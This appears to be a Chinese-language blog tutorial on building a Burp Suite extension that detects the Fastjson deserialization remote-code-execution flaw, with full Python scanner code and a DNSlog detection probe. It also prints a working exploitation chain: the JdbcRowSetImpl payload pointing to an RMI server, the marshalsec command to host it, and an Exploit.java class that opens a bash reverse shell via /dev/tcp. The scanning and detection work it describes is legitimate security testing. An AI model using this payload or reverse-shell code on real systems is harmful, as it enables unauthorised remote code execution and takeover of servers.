

2019/08/13 Update.
- 代码没有考虑到json里面套json的情况。
- 代码没有考虑到在使用x-www-form-urlencoded的参数是json的情况。 这两个加上去之后感觉每个请求的时间都会增加，先挖坑。
2019/08/02 Update:
- 之前的代码太的太烂，去掉了不用的代码
- 增加了hash验证，如果已经请求过的URL第二次就不检测了，需建立
/var/tmp/hash.txt文件（自己看着改吧) - 如果不熟悉，就看官方文档，文档，文档。
main.py
#/usr/bin/env python
#! -*- coding:utf-8 -*-
from burp import IBurpExtender # 定义插件的基本信息类
from burp import IHttpListener # http流量监听类
from burp import IRequestInfo
from noauth import noauth_request
import hashlib
class BurpExtender(IBurpExtender, IHttpListener):
def registerExtenderCallbacks(self, callbacks):
self._callbacks = callbacks
self._helpers = callbacks.getHelpers() # 通用函数
self._callbacks.setExtensionName("fastjson_scan")
print "load fastjson_scan plugin success!"
print "=================================="
# register ourselves as an HTTP listener
callbacks.registerHttpListener(self)
def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
if toolFlag == 4 or toolFlag == 64 or toolFlag == 16 or toolFlag == 32:
if messageIsRequest:
request = messageInfo.getRequest()
analyzedRequest = self._helpers.analyzeRequest(request)
contype = analyzedRequest.getContentType() #get Content-type, 这里看官方文档
url = str(messageInfo.getUrl())
with open('/var/tmp/hash.txt') as f:
lines = f.read().splitlines()
m = hashlib.md5()
m.update(url)
print url
if contype == 4 and m.hexdigest() not in lines: #是的，json的时候type等于4
with open('/var/tmp/hash.txt','a+') as f:
f.write(m.hexdigest()+"\n")
print "[Info]Check url is: %s" % url
cur = noauth_request(url)
noauth_result = cur.run()
if noauth_result:
print "[Critical] Found it is a Fastjson RCE %s" % noauth_result[0]
print "======================================================================================"
print ""
else:
pass
fastjson在1.2.47以下，包括1.2.47存在反序列化导致的远程命令执行，payload:
{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:8000/Exploit","autoCommit":true}}
然后在远程主机开启rmi服务和Exploit.classweb服务就可以打了。
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8888/#Exploit 8000
Exploit.java
javac Exploit.java //编译为class
java Exploit //运行测试
然后用python的http模块起一个web服务就可用。
public class Exploit {
public Exploit(){
try {
// Runtime.getRuntime().exec("calc");
java.lang.Runtime.getRuntime().exec(
new String[]{"bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/4545 0>&1"});
} catch(Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
Exploit e = new Exploit();
}
}
首先你要有一个可以打的接口，这就很蛋疼了。想了半天找了lufei写的一个xxescanner，想了下可以修改为自己的检测工具，但是到最后没成功。
java不熟悉只能转向自己熟悉的python，最后综合了下终于写出来了。
DNSlog
因为使用新的payload打了存在fastjson漏洞的应用之后，老的payload就可以打了 :) 从小密圈里面找到了一份POC
{"name":{"@type":"java.net.InetAddress","val":"baidu.com"}}
可以利用dnslog，根据val更换为自己的服务器，辣么久可以了。这个poc在1.2.48之后就不能用了，简直是绝佳的POC。 dnslog要用bit4改之后的那个。
思路就是请求自己的解析，然后根据接口去检测是否有对应的解析:
{"name":{"@type":"java.net.InetAddress","val":"test.baidu.com"}}
http://127.0.0.1:8000/apiquery/dns/test/a2f78f403d7b8b92ca3486bb4dc0e498/
//查询是否有test的解析
实际中可以生成一串随机字符串，然后去请求是否有对应的解析:
def genRandom(self):
letters = string.ascii_lowercase
s = ''.join(random.sample(letters, 10))
payload = hashlib.md5(s + str(time.time())).hexdigest()
return payload
两个步骤:
- 检测到请求中是否有json格式的请求，这里可以根据
Content-Type（可能不准确)，检测之后，构造body，打POC - 然后再去检测自己的dnslog是否存在相应的记录
不足
requests是同步请求，所以如果你的dnslog服务器放在太平洋那边，你的burp会让你怀疑人生，加nginx反代，加cdn。
MD终于弄完了。
main.py
#/usr/bin/env python
#! -*- coding:utf-8 -*-
import re
from burp import IBurpExtender # 定义插件的基本信息类
from burp import IHttpListener # http流量监听类
from noauth import noauth_request
res_host = re.compile(r'Host: ([^,]*)')
res_path = re.compile(r'POST ([^ ]*) HTTP/')
class BurpExtender(IBurpExtender, IHttpListener):
def registerExtenderCallbacks(self, callbacks):
self._callbacks = callbacks
self._helpers = callbacks.getHelpers() # 通用函数
self._callbacks.setExtensionName("fastjson_scan")
print "load fastjson_scan plugin success!"
print "=================================="
# register ourselves as an HTTP listener
callbacks.registerHttpListener(self)
def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
if toolFlag == 4 or toolFlag == 64 or toolFlag == 16 or toolFlag == 32:
if not messageIsRequest:
response = messageInfo.getResponse() # get response
analyzedResponse = self._helpers.analyzeResponse(response)
body = response[analyzedResponse.getBodyOffset():]
body_string = body.tostring() # get response_body
request = messageInfo.getRequest()
analyzedRequest = self._helpers.analyzeResponse(request)
request_header = analyzedRequest.getHeaders()
# print request_header[0]
# print request_header
header_string = ''.join(request_header)
# print header_string
# try:
# method,path = res_path.findall(request_header[0])[0]
# host = res_host.findall(request_header[1])[0]
# print flag_json
# url = method+" "+host+path
# except:
# url = ""
# if method=="POST" and flag_json:
if r"application/json" in header_string:
# 检测GET请求的接口
# print path
# print host
try:
path = res_path.findall(request_header[0])[0]
host = res_host.findall(request_header[1])[0]
target = host + path
except:
target = ''
print "[Info]Check url is:" + host + path
cur = noauth_request(host,path)
noauth_result = cur.run()
if noauth_result:
print "[Critical] Found it is a Fastjson RCE %s" % noauth_result[0]
print "======================================================================================"
print ""
noauth.py
#!/usr/bin/env python
#! -*- coding:utf-8 -*-
import requests
import random
import string
import hashlib
import time
headers={
"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36",
"Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8,mt;q=0.7,zh-TW;q=0.6",
"Accept-Encoding":"gzip, deflate",
"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"
}
headers2 = {
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.139 Safari/537.36",
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,mt;q=0.7,zh-TW;q=0.6",
"Accept-Encoding": "gzip, deflate",
"Accept": "*",
"Content-Type": "application/json"
}
class noauth_request(object):
# 未授权访问漏洞检测
def __init__(self,host,path):
self.url = "http://"+host+path
self.randomStr = ''
def run(self):
return_list = []
self.randomStr = self.genRandom()
if self.verify():
return_list.append(self.url)
return return_list
def verify(self):
payload = '{"name":{"@type":"java.net.InetAddress","val":"' + self.randomStr + '<domain>"}}'
# print payload
try:
res = requests.post(url=self.url, data=payload, timeout=20, headers=headers2, verify=False)
except Exception, e:
print str(e)
poc_url = "http://<domain>/apiquery/dns/" + self.randomStr + "/<token>/"
# print poc_url
try:
req = requests.get(poc_url, headers=headers)
if self.randomStr in req.content:
return True
except Exception,e:
print str(e)
return False
def genRandom(self):
letters = string.ascii_lowercase
s = ''.join(random.sample(letters, 10))
payload = hashlib.md5(s + str(time.time())).hexdigest()
return payload
这个文章很精彩呀，所以被删除了啊

- http://xdxd.love/2015/04/20/burpsuite%E6%8F%92%E4%BB%B6%E5%BC%80%E5%8F%91%E4%B9%8Bpython%E7%AF%87/
- https://thief.one/2018/05/04/1/
- https://github.com/BugScanTeam/DNSLog
- https://github.com/lufeirider/Project.git
- https://github.com/bit4woo/DNSLog